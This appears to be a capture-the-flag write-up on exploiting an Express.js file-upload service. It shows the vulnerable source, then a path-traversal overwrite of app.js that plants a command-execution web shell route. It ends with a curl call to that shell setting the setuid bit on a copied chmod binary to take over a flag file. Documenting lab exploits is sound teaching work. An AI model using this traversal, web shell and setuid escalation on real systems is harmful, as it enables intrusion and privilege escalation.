



# Homelab? More like Pwnlab!

### Information:
- express js code source
- webshell
- http://REDACTED


Source code:
```js
const express = require("express");
const path = require("path");
const fs = require("fs");

const app = express();
const PORT = 5555;

app.use(express.static("public"));

app.use(express.urlencoded({ extended: true }));
app.use(express.json());

app.set("view engine", "ejs");
app.set("views", path.join(__dirname, "views"));

app.get("/", (req, res) => {
  fs.readdir(path.join(__dirname, "public/uploads"), (err, files) => {
    if (err) {
      console.error("Could not list files:", err);
      res.status(500).send("Error listing files.");
      return;
    }
    res.render("index", { files });
  });
});

app.post("/upload", (req, res) => {
  if (!req.body.fileName || !req.body.fileContent) {
    return res.status(400).send("File data missing.");
  }

  const filename = req.body.fileName;
  const filePath = path.join(__dirname, "public/uploads", filename);

  fs.writeFile(filePath, req.body.fileContent, (err) => {
    if (err) {
      console.error("Error saving file:", err);
      return res.status(500).send("Failed to upload file.");
    }
    console.log("File saved successfully.");
    res.redirect("/");
  });
});

app.get("/download/:filename", (req, res) => {
  const filename = req.params.filename;
  const filepath = path.join(__dirname, "public/uploads", filename);
  res.download(filepath);
});

app.get("/restart", (req, res) => {
  res.send("Restarting server...");
  process.exit(0);
});

app.listen(PORT, () => {
  console.log(`Server running at http://localhost:${PORT}`);
});
```
We have the following:
- User: user, admin
- A container that run the application as `root`

```js
app.post("/upload", (req, res) => {
  if (!req.body.fileName || !req.body.fileContent) {
    return res.status(400).send("File data missing.");
  }

  const filename = req.body.fileName;
  const filePath = path.join(__dirname, "public/uploads", filename);

  fs.writeFile(filePath, req.body.fileContent, (err) => {
    if (err) {
      console.error("Error saving file:", err);
      return res.status(500).send("Failed to upload file.");
    }
    console.log("File saved successfully.");
    res.redirect("/");
  });
});
``` 

There is no validation on the file we will write

```js
app.get("/restart", (req, res) => {
  res.send("Restarting server...");
  process.exit(0);
});
```

Allow us to restart the server

After some try I realised I can write over `app.js`
I spike the application with a brand new method, without even a pull-request!

```js
app.post("/exec", (req, res) => {
    const { command } = req.body;
  
    if (!command) {
      return res.status(400).send("Command is required");
    }
  
    exec(command, (error, stdout, stderr) => {
      if (error) {
        return res.status(500).send(`Error executing command: ${error.message}`);
      }
      if (stderr) {
        return res.status(500).send(`stderr: ${stderr}`);
      }
      res.send(`<pre>${stdout}</pre>`); 
    });
  });
```
I upload `../../app.js` with the same code + my method `/exec`
I invoke  `/restart` to load up my version of this application

In the web shell as `user` I copy `chmod` into the bind mount between `docker` and `host`



```bash
curl -X POST https://REDACTED/exec -H "Content-Type: application/json" -d '{"command": "chmod u+s ./public/uploads/chmod"}'
```



And I just use it to change permission on the flag

```bash
./chmod 777 /home/admin/flag
```

